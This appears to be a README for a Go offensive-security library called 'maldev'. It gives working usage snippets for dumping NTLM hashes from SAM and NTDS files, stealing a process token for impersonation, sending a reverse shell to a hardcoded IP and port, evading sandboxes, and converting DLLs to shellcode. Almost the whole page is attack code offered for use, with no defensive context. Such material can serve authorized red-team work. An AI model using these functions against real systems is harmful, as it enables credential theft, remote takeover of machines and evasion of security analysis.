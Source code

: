 # Red Team Examples

## Multiple shellcode injection techniques

See `techniques_windows.go` for all the supported techniques

## Dump system hashes (different ways)

- This functions use [gosecretsdump](https://github.com/C-Sto/gosecretsdump) which is really fast and can NTLM dump hashes with a lot of config options

```go
package main

import (
  "fmt"

  "github.com/D3Ext/maldev/redteam"
)

func main(){
  // First way (using SAM and SYSTEM)
  hashes1, err := redteam.DumpSamHashes("C:\\path\\to\\system", "C:\\path\\to\\sam")
  if err != nil {
    log.Fatal(err)
  }
  fmt.Println(hashes1)

  // Second way (using NTDS and SYSTEM)
  hashes2, err := redteam.DumpNtdsHashes("C:\\path\\to\\system", "C:\\path\\to\\ntds")
  if err != nil {
    log.Fatal(err)
  }
  fmt.Println(hashes2)

  // Third way (automated mode)
  hashes3, err := redteam.AutoHashDump()
  if err != nil {
    log.Fatal(err)
  }
  fmt.Println(hashes3)

}
```

## Steal process token (impersonation)

```go
package main

import (
  "log"

  "github.com/D3Ext/maldev/redteam"
)

func main(){

  pid := 1234 // Set PID to steal
  token, err := redteam.Impersonate(pid) // Returns error if user doesn't have privileges
  if err != nil {
    log.Fatal(err)
  }
}
```

## Send Reverse Shell

```go
package main

import (
  "github.com/D3Ext/maldev/src/redteam"
)

func main(){
  redteam.ReverseShell("192.168.1.35", 1337)
}
```

## Anti-Sandboxing techniques

```go
package main

import (
  "fmt"
  "log"
  "github.com/D3Ext/maldev/src/redteam"
)

func main(){
  var cfg redteam.SandboxConfig = redteam.DefaultConfig

  results, err := redteam.AllSandboxChecks(cfg)
  if err != nil {
    log.Fatal(err)
  }

  // should print true if it is a potential sandbox
  fmt.Println(results.MinSpace)
  fmt.Println(results.Cores)
  fmt.Println(results.Memory)
  fmt.Println(results.Path)
  fmt.Println(results.Time)
  fmt.Println(results.Software)
  fmt.Println(results.Drivers)
  fmt.Println(results.Internet)
  fmt.Println(results.Processes)
  fmt.Println(results.Network)
  fmt.Println(results.Uptime)
}
```

## Convert DLL to to position independent shellcode

```go
package main

import (
  "fmt"
  "log"

  "github.com/D3Ext/maldev/src/redteam"
)

func main(){
  // get content of DLL as raw bytes
  dll_bytes, err := redteam.GetShellcodeFromFile("example.dll")
  if err != nil {
    log.Fatal(err)
  }

  // convert DLL to shellcode
  shellcode, err := redteam.ConvertDllToShellcode(dll_bytes, "", "")
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println(shellcode)
}
```


